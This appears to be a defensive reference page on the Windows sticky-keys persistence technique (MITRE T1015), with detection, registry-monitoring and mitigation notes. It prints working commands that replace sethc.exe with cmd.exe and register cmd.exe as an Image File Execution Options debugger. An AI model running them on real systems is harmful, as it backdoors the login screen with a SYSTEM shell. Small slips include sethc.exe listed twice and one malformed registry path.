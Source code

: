 ﻿# T1015 - Accessibility Features

## Attributes
**Tactic**: Persistence, Privilege escalation
**Effective Permissions**: System
**Data Sources**: Windows Registry, File monitoring, Process monitoring

## Description
The attacker will try to replace an accessibility executable such as **C:\Windows\System32\sethc.exe** or **C:\Windows\System32\sethc.exe** with **cmd.exe**. Once the accessibility executable has been replaced the attacker can now bring command prompt up regardless of user access by pressing **shift 5 times** or pressing **Win + U**.

## Tools to Perform Attack
Windows command line using the **move** or **copy** command.

### Examples
```shell
move /Y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
copy /y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
```

An attacker might also attach cmd.exe as a debugger to these tools by using the windows registry.

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

### Other Accessibility Executables
|File|Description|
|-|-|
|**C:\Windows\System32\osk.exe**| On-Screen Keyboard |
|**C:\Windows\System32\Magnify.exe**| Magnifier |
|**C:\Windows\System32\Narrator.exe**| Narrator |
|**C:\Windows\System32\DisplaySwitch.exe**| Display Switcher |
|**C:\Windows\System32\AtBroker.exe**| App switcher |

## Detection
Compare the hashes of the accessibility executables. A powershell script is available in references.

Monitor the registry at
> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

### Example
> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe

To search for this on kibana you would use the sysmon event ID 12/13/14 (Registry Events), with the context 
`HKLM\SOFTWARE\Microsoft\Windows\Windows NT\CurrentVersion\Image File Execution Options`

### Event IDs
Sysmon - Event ID 12 - Registry object added or deleted (rule: RegistryEvent)
`TargetObject: HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services`
Sysmon - Event ID 1 - Process Create (rule: ProcessCreate)
`ParentImage: utilman.exe /debug`

## Mitigation
- Ensure that Network Level Authentication is enabled so that RDP users can't access the login screen without being logged in.

## References
  - [Mitre T1015](https://attack.mitre.org/techniques/T1015/)

- **Atomic Red Team Article**
  - [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md)

- **Sticky-Keys scanner powershell script**
  - [https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1](https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1)

- **How to configure Network Level Authentication for RDP**
  - [https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html](https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html)
